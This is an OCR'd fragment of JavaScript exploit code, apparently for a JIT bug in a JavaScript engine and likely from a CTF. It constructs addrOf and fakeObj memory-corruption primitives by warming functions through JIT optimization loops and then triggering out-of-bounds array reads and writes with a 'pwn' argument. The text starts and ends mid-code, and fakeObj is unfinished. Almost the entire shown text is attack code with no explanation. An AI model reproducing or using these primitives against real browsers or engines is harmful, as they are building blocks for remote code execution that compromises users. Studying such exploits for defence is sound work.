 ```javascript
        return 0;
    }

    if (x == "pwn") {
        idx = 7;
    }

    return arr[idx];
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = pre_addrOf("", float_arr);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

function addrOf(obj) {
    var firing_range_addrof = [3.1, 3.2, 3.3, 3.4];
    var victim_addrof = [{'A': 1}, {'B': 2}];
    victim_addrof[0] = obj;
    
    // dp(firing_range_addrof);
    // dp(obj);
    // bp();
    
    return ftoi(pre_addrOf("pwn", firing_range_addrof)) & 0xffffffffn;
}

// ===============================================
// FAKE OBJECT OF PRIMITIVE
// ===============================================
function pre_fakeObj(x, arr, val) {
    let idx = 0;

    if (arr.length == 0) {
        return 0;
    }

    if (x == "pwn") {
        idx = 9;
    }

    arr[idx] = val;
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = pre_fakeObj("", float_arr, 6.9);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

function fakeObj(addr) {
    var float_arr = [1.1, 1.2, 1.3, 1.4];
    var obj = {"A":1};
    var obj_arr = [obj, obj];

    // dp(float_arr);
    // console.log("[*] float_arr: 0x" + addrOf(float_arr).toString(16));
    // console.log("[*] obj: 0x" + addrOf(obj).toString(16));
```
